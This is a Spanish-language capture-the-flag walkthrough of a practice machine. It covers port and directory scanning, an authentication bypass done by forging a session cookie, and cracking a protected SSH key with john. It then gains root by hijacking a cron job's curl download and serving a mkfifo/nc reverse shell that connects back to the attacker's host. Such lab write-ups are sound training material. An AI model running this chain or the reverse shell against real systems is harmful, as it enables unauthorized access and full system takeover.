 

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.30s latency).
Scanned at 2023-07-02 07:48:05 EDT for 18s
Not shown: 50348 filtered ports, 15185 closed ports
Reason: 50348 no-responses and 15185 resets
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo de nmap nos muestra 2 puertos abiertos. Al navegar dentro del servidor web, no podemos hacer mucho. Incluso si miramos el page source de la pagina no encontraremos mucho, solo una nota comica. Pasamos a enumerar directorios ocultos con `gobuster`.

```bash
gobuster dir -u http://IPTARGET -w /Path/Wordlist

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://IPTARGET/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/07/02 07:54:04 Starting gobuster
=====================================================
/aboutus (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/downloads (Status: 301)
/img (Status: 301)

```

# Intrusion

Anteriormente descubrimos el directorio /admin. Exploraremos el servidor web y lo inspeccionamos. Nos dirigimos al apartado **debugger** y exploraremos **login.js**.

Este codigo, tiene como funcion realizar una solicitud POST a un servidor. Para poder acceder al servidor, modificamos `Cookies.set("SessionToken",statusOrCookie)`
Le vamos a asignar un numero, algun dato o cualquier cosa que querramos asignarle.

Vamos al apartado de **Console** y ejecutamos el siguiente codigo: `Cookies.set("SessionToken",47548893)`.

Al refrescar la pagina, tendremos acceso al contenido en /admin que nos muestra el nombre de usuario y la ida_rsa para establecer una conexion ssh.

Una vez copiada la id_rsa, va a estar protegida. Utilizaremos las caracteristicas de **john** para crackearla y obtener sus credenciales.

```bash
ss2john id_rsa > james.txt
john --wordlist=/Path/Wodlist james.txt
```

Obtenemos la password y procedemos a establecer una conexion ssh al sistema, tenemos que darle permisos apropiados a id_rsa para poder conectarnos exitosamente.

```bash
chmod 600 id_rsa
ssh -i id_rsa james@IPTARGET
```

# Priv.Escalation

En el escritorio de james, vemos una nota de texto hablando sobre crontabs, asique listaremos si hay tareas automatizadas en el sistema con `cat /etc/crontabs`
El usuario root hace utiliza `curl` para recibir una respuesta de /downloads/src/buildscript.sh

Primero, tenemos que editar `/etc/hosts` de la maquina victima, y poner nuestro LHOST en overpass.thm.
Una vez hecho esto, nos dirigimos a nuestra maquina atacante, creamos un directorio con el mismo nombre donde el usuario root lanza `curl` y sobreescribimos el archivo buildscript.sh con nuestro reverse shell para obtener una sesion interactiva como usuario root.

```bash
mkdir -p /downloads/src
nano buildscript.sh
	#!/bin/bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f

```

Nos ponemos en escucha, y lanzamos un servidor python http en el puerto 80 para que funcione correctamente. El servidor python http tiene que ser ejecutado dentro del directorio anterior a /downloads. Por ejemplo, creaste en /home/overpass/download/src/
tendras que lanzar el servidor http en /overpass.

```bash
nc -nvlp LPORT
sudo python3 -m http.server 80
```

Esperamos unos segundos y una vez recibida el codigo status 200 en nuestro servidor python ya tendremos nuetra shell con usuario raiz root.




